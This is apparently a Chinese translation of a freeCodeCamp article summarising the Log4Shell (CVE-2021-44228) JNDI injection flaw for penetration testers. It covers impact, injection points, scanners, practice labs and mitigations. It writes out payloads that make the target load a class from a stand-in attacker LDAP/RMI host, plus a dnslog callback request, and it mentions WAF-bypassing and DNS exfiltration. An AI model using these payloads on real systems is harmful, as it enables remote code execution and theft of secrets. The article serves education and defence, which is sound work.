




# Java Log4JShell 漏洞——本周我对它的了解

> 原文：<https://www.freecodecamp.org/news/java-log4jshell-vulnerability/>

上周四，Log4J 日志库中披露了一个漏洞，影响了全球许多 Java 应用程序。

该漏洞名为*****log 4 shell(CVE-2021–44228)******。它允许攻击者在由易受攻击的应用程序解析和执行的请求中的任何位置注入精心编制的有效负载。*

*在 Twitter、Reddit 和 YouTube 上有很多关于这个巨大漏洞的资源。我想创建这个帖子来总结我学到的主要东西，作为 pentester 测试它的方法，以及帮助防止利用该漏洞的缓解控制。*

## *Log4Shell 漏洞概述*

 ***Log4Shell** 漏洞是一个 Java JNDI 注入。不过，这并不是一个新的漏洞——2016 年阿尔瓦罗·穆尼奥斯&亚历山大·米罗什曾在[的 Blackhat 演讲中谈到过这个问题。](https://www.blackhat.com/docs/us-16/materials/us-16-Munoz-A-Journey-From-JNDI-LDAP-Manipulation-To-RCE.pdf)

旧版本的库 1。x 不易受到代码执行的攻击。日志被封装成字符串格式，因为它们应该是这样的，并且它们不会被解析。

有趣的是，该漏洞是由版本**2.0–2 . 15 . 0**中新的 **JNDI 查找**功能引入的，该功能允许应用程序解析和解释任何输入，无论其来自何处。

这些包括 web 应用程序、数据库、电子邮件服务器、路由器、端点代理、移动应用程序、物联网设备——只要是你能想到的(如果它运行 Java，它就可能是易受攻击的)。

下面是 Rob Fuller [(@mubix)](https://twitter.com/mubix/status/1470430085169745920) 的一张出色的图表，展示了这个漏洞的影响。

当我开始在房间里寻找所有可能易受攻击的设备时，我感到很害怕。我测试了我的手机，健身手表，洗衣机(因为为什么不！！)通过其手机应用。

他们都给我回了域名。😱



**JNDI** ，或 Java 命名目录接口，是一个 API，允许 Java 应用程序根据对象的名称对其进行搜索。它支持几个目录服务，比如 T2 LDAP、RMI、DNS 和 CORBA T3。

我见过的大多数有效负载都使用 LDAP、DNS 和 RMI 协议来执行 DNS 请求。

对于 RCE pocs，攻击者需要设置一个 LDAP 服务器，以允许易受攻击的应用程序连接到它。因此，目标应用程序必须允许到攻击者控制的服务器的 LDAP 传出连接来加载恶意对象。

**DNS 请求**不足以确认应用程序是否易受远程代码执行的攻击。但是，它仍然有影响，因为这些请求可能会泄露敏感数据，从而危及目标的安全。

## Log4Shell 漏洞的影响

此漏洞的主要影响是:

*   通过 DNS 的数据渗透
*   利用恶意 Java 对象和恶意 LDAP 服务器远程执行代码

## 修补版本

Log4J **版本 2.17** 打了补丁。**撰写本文时，2.15.0 和 2.16.0** 补丁被绕过。

## 攻击者如何利用 Log4Shell💻

攻击者设置一个流氓 LDAP 服务器，创建一个漏洞利用有效负载类，并将其存储为 LDAP 对象，如 **"Log4JPayload.class"** ，以便以后引用。

然后，攻击者将精心制作的 JNDI 注入插入到任何可能被记录的请求中，比如请求路径、HTTP 头、文件名、文档/图像 EXIF 等等**(参见下面的注入点)**。

### 有效载荷示例

```
${jndi:ldap://attackermachine:portnumber/Log4JPayload.class} 

${jndi:rmi://attackermachine:portnumber/Log4JPayload.class} 
```

当恶意请求被记录时，Log4J 库将解析注入的输入，并联系流氓 LDAP 服务器来加载恶意类。

然后，应用程序执行引用的类，攻击者就可以在易受攻击的应用程序上远程执行代码。

## 注入点

一个主注入点在**请求路径**中，如下例:
`GET /${jndi:ldap://c6xppah2n.dnslog.cn/d} HTTP/1.1`

另一个在 **HTTP 头**中。攻击者可以在任何 HTTP 报头中注入有效负载。当进行应用程序测试时，它们都是有效的注入点。[穆萨·萨纳](https://musana.net/2021/12/13/log4shell-Quick-Guide/)编制了一份更详尽的名单。



Injection Points

重要的是要记住，利用漏洞并不总是导致立即回调。有时需要几分钟到几个小时才能拿回东西。

测试时，我等了大约 25 分钟，才收到手表的第一次回拨。所以对于黑盒测试，在决定应用程序是否易受攻击之前，给它足够的时间。要耐心⏰！

## Log4Shell 有效负载

在过去的几天里，Twitter 上发布了很多有用的信息，值得一读。一些有效负载使用混淆来绕过流行的 WAF，如 Akamai、Cloudflare 和 AWS WAF。

下面是从 Twitter 收集的有效载荷的截图。

我整理了[碳片段](https://carbon.now.sh/kUtwFTZzm3isgHSwWwKk)上有意思的。



Collected Payloads from Twitter - [https://carbon.now.sh/kUtwFTZzm3isgHSwWwKk](https://carbon.now.sh/kUtwFTZzm3isgHSwWwKk) 

## 数据渗透示例

假设某个应用程序不容易受到远程代码执行的攻击，或者阻塞了传出的 LDAP 连接。在这种情况下，攻击者或 pentester 仍然可以利用此漏洞提取敏感信息，如应用程序本身和托管基础架构的密钥、令牌和配置文件。

然后，攻击者可以利用这些信息选择适当的攻击媒介来危害目标应用程序。



Carbon Sinppet - [https://carbon.now.sh/kToUK7dCk0KJkri0qvXf](https://carbon.now.sh/kToUK7dCk0KJkri0qvXf)

## 自动检查

自动扫描有助于在黑盒测试期间对许多主机进行粗略检查。以下是可以帮助您实现这一目标的主要已知扫描工具列表:

*   打嗝扩展:[log 4 外壳扫描仪](https://portswigger.net/bappstore/b011be53649346dd87276bca41ce8e8f)
*   [Log4J 扫描仪由 mazen160](https://github.com/fullhunt/log4j-scan)
*   Log4J 的细胞核模板—id:[CVE-2021–44228](https://github.com/projectdiscovery/nuclei-templates/blob/master/cves/2021/CVE-2021-44228.yaml)
*   Nmap NSE 脚本— [nse-log4shell](https://github.com/Diverto/nse-log4shell)

## DNS 日志监视器服务

为了快速测试应用程序，我们使用下面的服务为我们的有效负载创建一个 DNS 令牌，看看我们是否得到了回调。

*   **[金丝雀令牌](https://canarytokens.org/generate)**
*   **DNSlog.cn**
*   **[互动](https://app.interactsh.com/#/)**
*   **打嗝合作者**

## 要测试的易受攻击的应用程序:🔥

GitHub、PentesterLabs 和 TryHackMe 上有许多优秀的、随时可以启动的易受攻击的应用程序可以用来测试这个漏洞。

我最喜欢的是 Log4Shell 应用程序(它需要一些设置，可以向您展示设置流氓 LDAP 服务器并连接到它的幕后过程)。然而，如果你想快速测试这一点，TryHackMe Solar room 是一个不错的选择。

*   **log 4 jpwn**——【https://github.com/leonjza/log4jpwn 
*   **log 4 shell**——【https://github.com/kozmer/log4j-shell-poc 
*   **PentestLabs 挑战** : [**Log4J RCE**](https://pentesterlab.com/exercises/log4j_rce/course) ， [**Log4J RCE 二世**](https://pentesterlab.com/exercises/log4j_rce_ii/course)
*   约翰·哈蒙德设计的 TryHackMe 太阳能房——【https://tryhackme.com/room/solar 【免费房间】

## 日志 4 外壳缓解措施

为了保护自己免受此漏洞的攻击，您可以采取以下步骤:

*   升级至 Log4J — **v2.17.0\.** 的最新版本

*   禁用消息内的查找`log4j2.formatMsgNoLookups=true`

*   从类路径中删除 JndiLookup 类`zip -q -d log4j-core-*.jar org/apache/logging/log4j/core/lookup/JndiLookup.class`

*   应用防火墙规则，将通信限制在少数允许的主机上，而不是所有人。 [**Mick Douglas**](https://twitter.com/bettersafetynet) 在他关于 IMMA 模式 [**“隔离”、“最小化”、“监控”和“主动防御”**](https://twitter.com/bettersafetynet/status/1469470983190986754) 的推文中解释得很好！

今天到此为止。这真是糟糕的一周。我学到了许多关于 Java 注入和利用的新东西。

感谢阅读！！

## 了解更多关于 Log4JShell 的信息

*   [Apache Log4j 漏洞 CVE-2021-44228 引发广泛关注](https://blogs.juniper.net/en-us/security/apache-log4j-vulnerability-cve-2021-44228-raises-widespread-concerns)
*   [关于 log4j (Log4Shell)漏洞你需要知道什么？由 SANS 研究所](https://www.youtube.com/watch?v=oC2PZB5D3Ys)
*   [深入挖掘日志 4j 中发现的日志 4Shell - 0Day RCE 漏洞](https://www.fastly.com/blog/digging-deeper-into-log4shell-0day-rce-exploit-found-in-log4j)
*   [Apache log4j 漏洞 CVE-2021-44228:分析和缓解](https://unit42.paloaltonetworks.com/apache-log4j-vulnerability-cve-2021-44228/)
*   [log4shell -快速指南](https://musana.net/2021/12/13/log4shell-Quick-Guide/)
*   [Log4Shell 零日漏洞利用演练](https://medium.com/geekculture/log4shell-zero-day-exploit-walkthrough-f42352612ca6)
*   [CVE-2021-44228-Log4j-MINECRAFT 易受攻击！(还有更多)](https://www.youtube.com/watch?v=7qoPDq41xhQ&t=35s)
*   [从 JNDI/LDAP 操作到远程代码执行的梦幻之旅](https://www.youtube.com/watch?v=Y8a5nB-vy78&t=2494s)
*   [Log4Shell : JNDI 通过可攻击的 Log4J 注入](https://blog.shiftleft.io/log4shell-jndi-injection-via-attackable-log4j-6bfea2b4896e)*